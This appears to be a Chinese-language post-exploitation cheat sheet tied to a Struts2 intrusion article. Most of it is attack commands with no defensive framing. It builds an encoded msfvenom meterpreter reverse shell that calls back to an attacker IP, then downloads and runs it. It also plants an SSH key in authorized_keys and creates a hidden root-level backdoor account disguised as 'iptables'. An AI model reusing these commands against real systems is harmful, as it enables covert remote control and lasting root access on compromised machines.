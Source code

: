 当Struts2遇到防火墙，你的思路够骚吗？[http://www.freebuf.com/articles/web/178650.html](http://www.freebuf.com/articles/web/178650.html)



```
useradd test
echo "1234" | passwd --stdin "test"  这一步失败，是由于密码有些特殊字符，并不是无法修改
usermod -g root test
id test
ssh服务器拒绝了密码
```



反弹获取交互式shell，字符多难免不可控，写入到sh文件后执行



```
msf linux木马+加密 是否执行

msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.250.162 LPORT=8090 -e x86/shikata_ga_nai -i  3 -f elf > /root/test

-e x86/shikata_ga_nai  -i  3  使用shikata编码方式，编码3次。
使用wget获取，HFS ~ HTTP File Server
chmod 777 test
./test 
```



直接命令执行把公钥echo进authorized_keys



```
非交互添加用户、修改密码、添加主目录、指定shell、修改UID、GID一条龙：
useradd -p `openssl passwd -1 -salt ‘lsof’ admin123` -u 0 -o -g root -G root -s /bin/bash -d /usr/bin/iptabies iptables
```

```
非交互修改密码的方法有一下两种：
1、使用chpasswd
echo "test:1234" | chpasswd
2、使用passwd也可以实现非交互的密码修改
echo "1234" | passwd --stdin "test"
```



加用户用passwd作为shell，登录就是设置密码，接着再将shell改回sh？？？？？

```
两个用户创建命令之间的区别：
adduser：会自动为创建的用户指定主目录、系统shell版本，会在创建时输入用户密码。
useradd：需要使用参数选项指定上述基本设置，如果不使用任何参数，则创建的用户无密码、无主目录、没有指定shell版本。
-d：  指定用户的主目录
-s：  指定用户登录时的shell版本
useradd -s '/usr/bin/passwd' test
```

```
eval:x:0:0::/home/eval:/bin/bash

root@VM-72-70-ubuntu:~# userdel eval 
usermod: user eval is currently used by process 1
UID 1等同于root，无法使用ps -u eval找到进程kill掉再操作
使用vipw、vipw -s将passwd和shadow中的eval行使用dd删掉，强制保存:wq!
```

```
Linux在窗口中显示隐藏文件 
打开对应的文件夹窗口：ctrl+h
```

